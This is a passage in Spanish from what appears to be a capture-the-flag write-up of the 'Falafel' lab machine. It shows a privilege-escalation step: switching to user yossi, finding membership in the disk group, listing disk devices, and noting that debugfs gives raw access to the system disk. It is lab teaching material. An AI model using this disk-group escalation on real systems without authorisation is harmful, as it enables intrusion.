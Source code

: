 Me convierto en este usuario

```null
moshe@falafel:/$ su yossi
Password: 
yossi@falafel:/$ 
```

# Escalada

Ahora tengo acceso a otros grupos distintos

```null
yossi@falafel:~$ id
uid=1000(yossi) gid=1000(yossi) groups=1000(yossi),4(adm),6(disk),24(cdrom),30(dip),46(plugdev),117(lpadmin),118(sambashare)
```

```disk``` puede ser crítico, ya que tengo acceso a las unidades lógicas, entre ellas la que almacena el sistema

```null
yossi@falafel:/$ find \-group disk 2>/dev/null 
./dev/btrfs-control
./dev/sda5
./dev/sda2
./dev/sda1
./dev/sg0
./dev/sda
./dev/loop7
./dev/loop6
./dev/loop5
./dev/loop4
./dev/loop3
./dev/loop2
./dev/loop1
./dev/loop0
./dev/loop-control

yossi@falafel:/$ fdisk -l
Disk /dev/sda: 4 GiB, 4294967296 bytes, 8388608 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x2aa34854

Device     Boot   Start     End Sectors  Size Id Type
/dev/sda1          2048 7337983 7335936  3.5G 83 Linux
/dev/sda2       7337984 8388607 1050624  513M  5 Extended
/dev/sda5       7340032 8388607 1048576  512M 82 Linux swap / Solaris
```

Con ```debugfs``` me puedo conectar al disco que quiera
